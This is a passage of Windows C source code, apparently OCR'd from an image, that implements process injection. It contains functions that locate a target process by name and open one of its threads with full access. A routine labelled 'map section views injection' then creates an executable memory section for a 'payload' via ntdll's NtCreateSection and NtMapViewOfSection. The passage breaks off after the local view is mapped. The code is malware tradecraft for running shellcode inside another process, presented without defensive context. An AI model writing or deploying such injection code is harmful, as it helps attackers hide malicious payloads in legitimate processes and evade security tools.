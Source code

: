 ```C
        return 0;
    }

    while (Process32Next(hProcSnap, &pe32))
    {
        if (lstrcmpiA(procname, pe32.szExeFile) == 0)
        {
            pid = pe32.th32ProcessID;
            break;
        }
    }

    CloseHandle(hProcSnap);

    return pid;
}

HANDLE FindThread(int pid)
{

    HANDLE hThread = NULL;
    THREADENTRY32 thEntry;

    thEntry.dwSize = sizeof(thEntry);
    HANDLE Snap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);

    while (Thread32Next(Snap, &thEntry))
    {
        if (thEntry.th32OwnerProcessID == pid)
        {
            hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, thEntry.th32ThreadID);
            break;
        }
    }
    CloseHandle(Snap);

    return hThread;
}

// map section views injection
int InjectVIEW(HANDLE hProc, unsigned char *payload, unsigned int payload_len)
{

    HANDLE hSection = NULL;
    PVOID pLocalView = NULL, pRemoteView = NULL;
    HANDLE hThread = NULL;
    CLIENT_ID cid;

    // create memory section
    NtCreateSection_t pNtCreateSection = (NtCreateSection_t)GetProcAddress(GetModuleHandle("NTDLL.DLL"), "NtCreateSection");
    if (pNtCreateSection == NULL)
        return -2;
    pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, (PLARGE_INTEGER)&payload_len, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);

    // create local section view
    NtMapViewOfSection_t pNtMapViewOfSection = (NtMapViewOfSection_t)GetProcAddress(GetModuleHandle("NTDLL.DLL"), "NtMapViewOfSection");
    if (pNtMapViewOfSection == NULL)
        return -2;
    pNtMapViewOfSection(hSection, GetCurrentProcess(), &pLocalView, NULL, NULL, NULL, (SIZE_T *)&payload_len, ViewUnmap, NULL, PAGE_READWRITE);
```